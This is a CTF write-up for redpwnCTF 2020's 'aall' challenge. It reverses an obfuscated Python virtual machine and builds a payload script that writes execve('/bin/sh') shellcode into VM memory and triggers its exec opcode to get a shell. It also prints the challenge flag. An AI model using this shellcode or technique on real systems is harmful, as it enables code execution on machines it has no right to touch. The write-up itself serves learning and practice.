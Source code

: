 +++
title = "redpwnCTF - aall"
description = """
Writeup of redpwnCTF 2020's 'aall' challenge. We reverse a virtual machine with a custom instruction set \
written in Python and create a payload that runs in the VM to spawn a shell. \
"""
date = 2020-06-25
updated = 2020-12-27
aliases = ["/posts/5ef4d50d1d3e7302fc8a3418-redpwnctf-aall"]
[taxonomies]
tags = ["redpwnctf20", "reversing", "python"]
categories = ["ctf-writeups"]
+++

# Challenge

> how many layers of vm are you on
>
> like,, maybe 5, or 6 right now my dude
>
> you are like a baby... watch this
>
> nc 2020.redpwnc.tf 31755

We're also given a [python file](https://gist.github.com/srikavin/f6fc3f9cf62155b95868bac16a40ba5a#file-aall-py) and a 
[Dockerfile](https://gist.github.com/srikavin/f6fc3f9cf62155b95868bac16a40ba5a#file-dockerfile).

# Decoding

Looking at the python file shows that it writes out a file named `breakout.aallo` and calls `exec` on a string after 
base64-decoding and lzma-uncompressing it. We can modify the file to save the executed file to disk instead. 
It's a [python script](https://gist.github.com/srikavin/0cba74ad88e43442154dd341979c9b6d), but all of the variables are 
random unicode characters. Although the python interpreter is happy to run the code, it's nearly impossible to understand. 

<!-- more -->

I wrote a small script to replace all of the unicode characters with a different name:

```python
final = b''
mapping = dict()
counter = 0

for c in decompressed:
    if c >= 128:
        if not c in mapping:
            mapping[c] = 'v' + str(counter)
            counter += 1
        final += mapping[c].encode()
    else:
        final += bytes([c])

open('unpacked1.py', 'wb').write(final)
```

This results in a [slightly easier to read file](https://gist.github.com/srikavin/d495f27076450822e0fc4f6cd4dbc62c):

I went ahead and renamed all of the variables and cleaned up the file. The [resulting file](https://gist.github.com/srikavin/cce2544f70b8283309ac088d274b3b06) 
was clearly an interpreter. An interpreted program is passed through argv, which is then loaded into interpreter memory 
(an array). The first two bytes of the program contain the address to start interpreting at.

The interpreter isn't too complicated, but it has an interesting instruction `%`:

```python
elif instr_type == '%':
    idd = id(memory[registers['ip']:]) + 48
    mmapped = mmap.mmap(-1, mmap.PAGESIZE, prot=mmap.PROT_READ | mmap.PROT_WRITE | mmap.PROT_EXEC)
    c_functype = ctypes.CFUNCTYPE(ctypes.c_int, ctypes.c_int)
    v3v17v25v21 = ctypes.c_void_p.from_buffer(mmapped)
    function = c_functype(ctypes.addressof(v3v17v25v21))
    v3v19v57v10 = bytes(memory[registers['ip']:]).replace(b'\x00', b'')
    mmapped.write(v3v19v57v10)
    retVal = function(idd)
    del v3v17v25v21
    mmapped.close()
```

This instruction mmaps a new block of memory, loads the memory following the instruction pointer's current position, 
and executes it. This means if we somehow insert shellcode into memory, we can execute by using this opcode.

## breakout.aall

We also have the file `breakout.aall` which is the program interpreted by this interpreter. I wrote a script to print 
[a disassembly](https://gist.github.com/srikavin/8c49d2d8c90d9f09aa6e6b5ed771c803) of this file. This program, when 
executed by the interpreter (which is executed by the python interpreter), loads the string 
`https://aaronesau.com/files/objectively-wrong.png` into memory, and then accepts user input.

`breakout.aall` acts as an interpreter itself. It has five instructions:
* `>` which increments the stack pointer
* `<` which decrements the stack pointer
* `+` which increments the value at the stack pointer (dereferences the stack pointer and increments the value)
* `-` which decrements the value at the stack pointer
* `?` which acts as a NOP

We can use `breakout.aall` to write values to memory. Since, the opcodes for `breakout.aall` is also stored in memory, 
we can modify the executed opcodes to include a `%` instruction to execute shellcode. 

The approach is clear: write shellcode to memory, then overwrite parts of `breakout.aal` in memory to jump to the shellcode.

# Payload Generation

Conveniently, `breakout.aall` has a NOP instruction that we can overwrite to `%` to call shellcode. I wrote a script to 
generate the payload:

```python
sp = 1469


def move_sp_to(goal):
    global sp

    old_sp = sp
    sp = goal

    if goal == old_sp:
        return ''
    if goal > old_sp:
        return '>' * (goal - old_sp)
    if goal < old_sp:
        return '<' * (old_sp - goal)


def write_val(index, value, initial_value=0):
    global sp

    ret = move_sp_to(index)

    if value == initial_value:
        return ret
    if value > initial_value:
        return ret + '+' * (value - initial_value)
    if value < initial_value:
        return ret + '-' * (initial_value - value)


payload = ""

previous = b'\x01\x00\x8a\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00https://aaronesau.com/files/ob'
shellcode = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'
print(shellcode)
# % INSTR AT 1398
payload += write_val(1398, 0x25, 0x5)

# write payload
i = 0
for b in shellcode:
    payload += write_val(1400 + i, b, previous[i])
    i += 1

# trigger shellcode
payload += "?"

print(payload)
```

Since we can only increment and decrement the values at certain locations, I included the values at the memory location before running the script, so that those addresses could be incremented/decremented appropriately.

Piping the output from this script into the program gives us a shell, and we can get the flag:
`flag{b1ng0!_obl1g4t0ry-sh1tty-cust0m_4rch_ch4l-ftw}`.

